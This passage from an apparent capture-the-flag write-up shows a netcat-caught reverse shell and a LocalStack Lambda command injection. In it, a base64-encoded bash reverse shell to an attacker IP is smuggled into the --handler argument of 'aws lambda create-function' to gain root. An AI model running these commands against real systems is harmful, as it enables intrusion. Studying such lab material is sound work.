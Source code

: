 ```bash
fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```

Grab the user flag at `/home/localstack/user.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 40372
bash: cannot set terminal process group (20): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
bash-5.0$ id
id
uid=1001(localstack) gid=1001(localstack) groups=1001(localstack)
bash-5.0$ ls -la /home/localstack/user.txt
ls -la /home/localstack/user.txt
-r--r-----    1 root     localsta        33 Jul 12  2021 /home/localstack/user.txt
```

---

## LocalStack Lambda Command Injection to `root`

Using [pspy](https://github.com/DominicBreuker/pspy) to monitor process while creating and invoking a Lambda function from within the LocalStack container, it seems that the `--handler` and `--runtime` flag values to `lambda create-function` are passed as command line arguments to a Docker shell command when running `lambda invoke`. Since it is a Docker shell command being executed, it is running as `root`. Exploit this vulnerability to gain a `root` shell on the container.

Create a Lambda function whose `--handler` value is a reverse shell command.

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda create-function --function-name tgihf --zip-file fileb://function.zip --handler '$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash)' --runtime nodejs12.x --role lambda-ex
{
    "FunctionName": "tgihf",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:tgihf",
    "Runtime": "nodejs12.x",
    "Role": "lambda-ex",
    "Handler": "$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash)",
    "CodeSize": 317,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2022-03-21T14:12:32.510+0000",
    "CodeSha256": "8nUEIrrafkyKgs2i/sh63Fevj2kYkbIyFPFI5M0o6Dk=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "c5780f80-8537-45a4-b119-d92d283bab7b",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```
